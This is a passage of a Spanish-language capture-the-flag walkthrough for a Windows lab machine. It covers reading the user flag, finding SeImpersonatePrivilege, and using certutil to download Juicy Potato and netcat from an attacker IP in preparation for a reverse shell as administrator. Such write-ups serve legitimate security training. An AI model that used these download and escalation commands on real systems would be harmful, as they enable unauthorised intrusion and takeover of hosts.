 ```powershell wrap=false
PS C:\> whoami
bounty\merlin
# La flag está oculta, por eso usamos -force
PS C:\Users\merlin\Desktop> dir -force


    Directory: C:\Users\merlin\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a-hs         5/30/2018  12:22 AM        282 desktop.ini                       
-arh-         8/18/2025   1:29 AM         34 user.txt                          


PS C:\Users\merlin\Desktop> type user.txt
6c4e6fac84a1bb5c07f8...
```

## Escalada de privilegios

Empezaremos con un `whoami /priv`:

```powershell wrap=false
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Vemos que el privilegio `SeImpersonatePrivilege` está activo para nosotros, este privilegio permite que un proceso o usuario **suplante (impersonate) el contexto de seguridad de otro usuario** después de que este se haya autenticado en el sistema. Podríamos jugar con [https://github.com/ohpe/juicy-potato/](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)  y [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/) para entablar una reverse shell como **administrador**.

Después de haber descargado esos dos binarios, los descargaremos a la máquina víctima con el siguiente comando:

```powershell wrap=false
PS C:\windows\temp\privesc> certutil.exe -f -urlcache -split http://10.10.14.7/JP.exe JP.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.
PS C:\windows\temp\privesc> certutil.exe -f -urlcache -split http://10.10.14.7/nc.exe nc.exe
****  Online  ****
  0000  ...
  b0d8
CertUtil: -URLCache command completed successfully.
```
